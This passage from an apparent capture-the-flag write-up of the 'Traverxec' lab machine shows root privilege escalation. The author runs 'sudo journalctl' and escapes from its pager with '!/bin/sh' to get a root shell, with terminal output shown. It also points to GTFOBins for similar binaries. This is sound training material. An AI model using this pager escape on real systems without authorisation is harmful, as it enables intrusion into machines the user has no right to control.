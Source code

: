 Since this is a script most likely it is run without any kind of interactive mode, that
means that the last line most likely will run journalctl without any password required
for the sudo command, journalctl has a neat feature that uses a system pager like more or less to allow you to scroll through the output and that meas we can call a shell using
!/bin/sh
```
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Thu 2020-04-09 16:39:04 EDT, end at Fri 2020-04-10 14:42:06 EDT. --
Apr 10 14:01:22 traverxec sudo[3982]: pam_unix(sudo:auth): auth could not identify password for [www-
Apr 10 14:01:22 traverxec sudo[3982]: www-data : user NOT in sudoers ; TTY=unknown ; PWD=/usr/bin ; U
Apr 10 14:06:19 traverxec sudo[4001]: pam_unix(sudo:auth): conversation failed
Apr 10 14:06:19 traverxec sudo[4001]: pam_unix(sudo:auth): auth could not identify password for [www-
Apr 10 14:06:19 traverxec sudo[4001]: www-data : command not allowed ; TTY=unknown ; PWD=/usr/bin ; U
lines 1-6/6 (END)
!/bin/sh
# ls /root
nostromo_1.9.6-1.deb  root.txt
```
And here we have our second flag root.txt now we are just a cat away to have or trophy. 
To know more about this quirks of \*nix derivates systems you can checkout
[gftobins](https://gtfobins.github.io/gtfobins/) there are a lot of binaries that can
be leveraged to have a shell in restricted environments.

